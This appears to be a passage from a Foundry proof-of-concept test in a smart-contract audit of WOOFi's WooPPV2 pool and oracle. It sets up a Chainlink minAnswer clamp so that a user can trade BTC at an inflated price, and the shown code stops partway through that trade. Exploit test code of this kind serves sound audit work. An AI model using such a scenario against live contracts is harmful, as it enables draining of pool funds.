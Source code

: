 ```solidity
        contracts.arbToken.approve(address(contracts.wooPPV2), 100000 ether);
        
        contracts.wooPPV2.deposit(address(contracts.btcToken), 100000 ether);
        contracts.wooPPV2.deposit(address(contracts.usdtToken), 100000 ether);
        contracts.wooPPV2.deposit(address(contracts.arbToken), 100000 ether);

        // setting wooracle state
        contracts.wooracleV2_2.postState(address(contracts.btcToken), 20000 * 10 ** 8, 0.001 ether, 0.000000001 ether);
        contracts.wooracleV2_2.postState(address(contracts.arbToken), 550 * 10 ** 8, 0.001 ether, 0.000000001 ether);

        // setting admin
        contracts.wooracleV2_2.setAdmin(address(contracts.wooPPV2), true);

        // setting cross chain router
        contracts.nonceCounter = new NonceCounter();
        contracts.wooRouterV2 = new WooRouterV2(address(contracts.weth), address(contracts.wooPPV2));
        contracts.sgInfo = new SgInfo(makeAddr("SgRouter"), 101 /* represent ethereum */);
        contracts.wooCrossChainRouterV4 = new WooCrossChainRouterV4(address(contracts.weth), address(contracts.wooRouterV2),address(contracts.sgInfo));

        contracts.nonceCounter.setCrossChainRouter(address(contracts.wooCrossChainRouterV4), true);
        contracts.nonceCounter.setCrossChainRouter(address(contracts.wooCrossRouterForWidget), true);

        // setting cross chain widget
        contracts.wooCrossRouterForWidget = new WooCrossRouterForWidget(address(contracts.nonceCounter), address(contracts.wooRouterV2), address(contracts.wooCrossChainRouterV4), address(contracts.sgInfo));
    }

      function test_oralcesCanCauseIssues() public {
        // setup
        address alice = makeAddr("alice");
        uint256 amount = 1 * 10 ** contracts.btcToken.decimals();

        // setting clopreffered for btc to true
        contracts.wooracleV2_2.setCloPreferred(address(contracts.btcToken), true);

        // setting price of btc lower than min price of btc
        // let's say price of btc is moved down by 10000 usd due to infavourable conditions
        // updating the price of btc
        contracts.wooracleV2_2.postPrice(address(contracts.btcToken), 30000e8, block.timestamp);

        // but there was a min Answer limit of 35000e8 in chainlink oracle. so it would always return to 35000e8 now
        oracles.btcChainlinkOracle.setRoundData(35000e8);

        // moving few minutes in future to simulate the time passed so that chainlink feeds can be used
        skip(3 minutes);

        // minting tokens to alice
        contracts.btcToken.mint(alice, amount);

        // setting price of btc very high

        // alice transfers tokens to the woopp
        vm.startPrank(alice);
        contracts.btcToken.transfer(address(contracts.wooPPV2), amount);

```